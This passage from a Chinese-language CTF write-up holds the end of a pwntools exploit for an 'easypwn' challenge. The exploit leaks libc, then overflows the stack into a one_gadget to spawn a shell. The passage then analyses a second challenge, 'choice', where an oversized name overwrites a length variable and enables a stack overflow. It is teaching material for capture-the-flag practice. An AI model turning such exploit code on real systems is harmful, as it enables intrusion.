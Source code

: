 ```python
	p.send(payload)
	p.recvuntil("\xdb\x07\x40")
	libc.address = u64(p.recv(6).ljust(8,'\x00'))-libc.symbols["write"]
	info("libc : " + hex(libc.address))
	p.recvuntil("Welcome to CTF")
	payload = "A"*0x18+p64(ppppp_r)+"A"*8+p64(libc.address+0xf02a4)+"\x00"*0x70
	p.send(payload)
	p.interactive()
if __name__ == "__main__":
	libc = ELF("libc-2.23.so",checksec=False)
	elf = ELF("./easypwn",checksec=False)
	main(args['REMOTE'])
```

## choice

漏洞点在
```c
  nbytes = 21;
  v3 = 0;
  puts("Welcome to life choice!");
  puts("Please enter your name:");
  fflush(stdout);
  read(0, name, nbytes);
  if ( strlen(name) > 0x14 )
    printf("Your name's too long!");
/*
.bss:0804A04C name            db 14h dup(?)           ; DATA XREF: main+82↑o
.bss:0804A04C                                         ; main+94↑o ...
.bss:0804A060 ; size_t nbytes
.bss:0804A060 nbytes          dd ?                    ; DATA XREF: sub_804857B+16↑r
.bss:0804A060
*/
```

可以看到我们输入的`name`刚好可以覆盖到`nbytes`，然后结合后面的

```c
if ( v3 > 2 && v3 <= 3 )
  {
    puts("Cool! And whd did you choice it?");
    fflush(stdout);
    read(0, &v1, nbytes);    //<------------
    puts("Your choice is correct");
  }
  else
  {
    puts("Wrong choice!");
    sub_804857B();
  }
```
就可以栈溢出了，这题也没有canary
在`sub_804857B()`里溢出会更简单一点
